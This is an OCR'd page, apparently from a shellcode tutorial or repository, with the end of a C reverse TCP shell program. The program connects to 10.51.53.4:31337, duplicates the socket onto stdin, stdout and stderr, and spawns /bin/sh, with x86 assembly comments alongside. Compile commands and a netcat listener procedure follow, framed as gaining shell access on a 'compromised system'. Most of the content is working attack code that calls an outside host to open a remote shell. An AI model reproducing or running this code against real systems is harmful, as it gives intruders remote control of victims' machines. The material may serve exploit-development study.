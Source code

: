```c
    attacker_addr.sin_port = htons(31337);
    attacker_addr.sin_addr.s_addr = inet_addr("10.51.53.4");
    memset(&(attacker_addr.sin_zero),'\0',8);
    connect(sockfd, (struct sockaddr *)&attacker_addr, 
        sizeof(struct sockaddr));
 
    /*
    mov ebx, eax    ; ebx contains dupsockfd
    xor ecx, ecx    ; zero ecx register
    mov cl, 0x3     ; set counter
    dupfd:
    dec cl          ; decrement counter
    mov al, 0x3f    ; dup2()
    int 0x80        ; make the call
    jne dupfd       ; loop until 0
    */
    dup2(sockfd,0); // stdin
    dup2(sockfd,1); // stdout
    dup2(sockfd,2); // stderr
 
    /*
    push edx        ; push null
    push 0x68732f6e ; hs/n
    push 0x69622f2f ; ib//
    mov ebx, esp    ; ebx contains address of //bin/sh
    push edx        ; push null
    push ebx        ; push address of //bin/sh
    mov ecx, esp    ; ecx pointer to //bin/sh
    push edx        ; push null
    mov edx, esp    ; edx contains pointer to null
    mov al, 0xb     ; execve()
    int 0x80        ; make the call
    */
    execve("/bin/sh", NULL, NULL);
}
```
Build the code:
```
$ gcc reversetcpbindshellc.c -o reversetcpbindshellc
```
Test above executable using two systems (virtual or otherwise):
Open a terminal on the attack system,
```
$ nc -l -v 31337
```
the attack system will await a connection from the compromised system.

Open a terminal on the system to be compromised,
```
$ ./reversetcpbindshellc
```
on the attack system a connection message should now appear, shell access is now available on the compromised system. Trying typing in some commands to prove this is the case.
